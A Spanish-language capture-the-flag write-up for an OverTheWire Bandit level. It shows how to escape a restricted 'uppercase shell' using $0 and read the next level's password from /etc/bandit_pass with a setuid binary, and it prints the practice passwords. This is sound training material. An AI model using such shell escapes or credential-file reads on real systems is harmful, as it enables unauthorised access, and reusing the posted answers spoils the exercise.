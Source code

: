# Bandit Level 33 → Level 34

## Objetivo
After all this `git` stuff, it’s time for another escape. Good luck!

## Datos de acceso al nivel
```
bandit32
3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
```

## Solucion
```bash
WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: Permission denied
>> $0
$ echo $0
sh
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Sep 19 07:08 .
drwxr-xr-x 70 root     root      4096 Sep 19 07:09 ..
-rw-r--r--  1 root     root       220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root     root      3771 Mar 31  2024 .bashrc
-rw-r--r--  1 root     root       807 Mar 31  2024 .profile
-rwsr-x---  1 bandit33 bandit32 15136 Sep 19 07:08 uppershell
$ whoami
bandit33
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0

```
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
## Notas adicionales



## Referencias